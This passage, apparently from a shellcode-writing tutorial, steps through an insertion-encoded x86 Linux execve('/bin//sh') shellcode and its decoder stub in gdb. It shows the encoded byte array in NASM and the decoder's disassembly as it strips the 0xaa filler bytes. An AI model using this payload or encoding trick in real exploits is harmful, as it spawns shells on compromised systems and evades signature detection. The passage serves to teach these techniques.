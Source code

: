 just below the `call`. So what we really want to do is we basically
want to look at how this is changing over time in its single
iteration.

So let's go ahead and see that we actually look at our shellcode

```
(gdb) x/20xb 0x0804a064
0x804a064 <code+36>:	0x31	0xaa	0xc0	0xaa	0x50	0xaa	0x68	0xaa
0x804a06c <code+44>:	0x2f	0xaa	0x2f	0xaa	0x73	0xaa	0x68	0xaa
0x804a074 <code+52>:	0x68	0xaa	0x2f	0xaa
```

and now if I look at my file which is `insertion-decoder.nasm`

```
(gdb) shell cat insertion-decoder.nasm
```

then we'll see there

```
	call decoder
	EncodedShellcode: db 0x31,0xaa,0xc0,0xaa,0x50,0xaa,0x68,0xaa,0x2f,0xaa,0x2f,0xaa,0x73,0xaa,0x68,0xaa,0x68,0xaa,0x2f,0xaa,0x62,0xaa,0x69,0xaa,0x6e,0xaa,0x89,0xaa,0xe3,0xaa,0x50,0xaa,0x89,0xaa,0xe2,0xaa,0x53,0xaa,0x89,0xaa,0xe1,0xaa,0xb0,0xaa,0x0b,0xaa,0xcd,0xaa,0x80,0xaa
```

that it's exactly what at `0x0804a064` address.

So what also I want to do is to setup breakpoint at `0x0804a064`. So 
as soon as decoding finishs we know that our shellcode is decoded.

```
(gdb) break *0x0804a064
```

Let's make some steps to see how the shifting is happening

```
(gdb) define hook-stop
>disassemble 
>x/20xb 0x0804a064
>end
```

Now let me actually make some `stepi`

```
(gdb) stepi
Dump of assembler code for function code:
   0x0804a040 <+0>:	jmp    0x804a05f <code+31>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	lea    edi,[esi+0x1]
   0x0804a046 <+6>:	xor    eax,eax
   0x0804a048 <+8>:	mov    al,0x1
   0x0804a04a <+10>:	xor    ebx,ebx
   0x0804a04c <+12>:	mov    bl,BYTE PTR [esi+eax*1]
   0x0804a04f <+15>:	xor    bl,0xaa
   0x0804a052 <+18>:	jne    0x804a064 <code+36>
   0x0804a054 <+20>:	mov    bl,BYTE PTR [esi+eax*1+0x1]
   0x0804a058 <+24>:	mov    BYTE PTR [edi],bl
=> 0x0804a05a <+26>:	inc    edi
   0x0804a05b <+27>:	add    al,0x2
   0x0804a05d <+29>:	jmp    0x804a04c <code+12>
   0x0804a05f <+31>:	call   0x804a042 <code+2>
   0x0804a064 <+36>:	xor    eax,eax
   0x0804a066 <+38>:	shr    BYTE PTR [edx-0x559755b0],0x2f
   0x0804a06d <+45>:	stos   BYTE PTR es:[edi],al
   0x0804a06e <+46>:	das    
   0x0804a06f <+47>:	stos   BYTE PTR es:[edi],al
   0x0804a070 <+48>:	jae    0x804a01c
```